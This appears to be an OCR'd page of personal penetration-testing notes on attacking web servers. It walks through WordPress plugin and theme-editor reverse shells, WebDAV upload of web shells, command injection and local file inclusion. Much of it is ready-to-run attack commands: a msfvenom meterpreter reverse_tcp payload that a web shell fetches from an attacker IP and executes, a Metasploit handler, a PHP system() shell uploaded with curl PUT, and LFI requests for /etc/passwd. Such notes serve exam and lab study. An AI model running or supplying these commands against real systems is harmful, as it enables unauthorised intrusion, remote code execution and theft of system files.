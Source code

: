                 Install plugin reverse shell: sudo apt install seclists,  cd /usr/share/seclists/Web-Shells/WordPress, sudo zip plugin-shell.zip plugin-shell.php
                Upload and install on WP plugins page
                Or just upload direct shell plugin like at:  https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell
                Send commands:   curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
                Generate and transfer shell payload:  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=443 -f elf > shell.elf
                     curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=wget%20http://10.11.0.4/shell.elf
                     curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=chmod%20%2bx%20shell.elf
                    sudo msfconsole -q -x "use exploit/multi/handler;\
                    > set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
                    > set LHOST 10.11.0.4;\
                    > set LPORT 443;\
                    > run"
                     curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=./shell.elf
            RCE:
                Modifying a php from the theme used (admin credentials needed)
                Appearance -> Editor -> 404 Template (at the right)
                Change the content for a php shell
                https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
                http://<IP>/wp-content/themes/twentytwelve/404.php
    Techniques:
        File Upload:
            DAVTEST FOR TESTING FILE/SHELL UPLOAD (msfvenom)
            davtest -url http://10.10.10.15
            Might need to upload .html file, then rename (move) it to another type that executes a shell (like aspx)
            Upload file with curl:  curl http://10.10.10.15/ --upload-file shell.txt
                or:   curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php
        Move/Rename file:  curl -X MOVE --header "Destination:http://10.10.10.15/shell.aspx" http://10.10.10.15/shell.txt
            curl -X MOVE --header "Destination:http://10.10.10.15/nc.exe" http://10.10.10.15/nc.txt
        Code Injection/Input Boxes:
        test: try ; at end of input with additional command; try ' for sqli test
        find somewhere to inject reverse shell code
        url commands to try:
        ?code=phpinfo()
        ?code=system('id'); (if single line output)
        ?code=echo shell_exec('/sbin/ifconfig eth0'); (if multiple line output)

        Url Local File Inclusion:
        watch for [field]=... in url to access another directory
        ex. ...?page=/../../../../../etc/passwd
        *might need to add null byte terminator to end (passwd%00)
        See LFI Interesting Files
        LFI: put %00 at end:
        http://target.com/?page=./../../../../../../../../../etc/passwd%00
        LFI Cheat Sheat/reverse shell methods:  https://highon.coffee/blog/lfi-cheat-sheet/
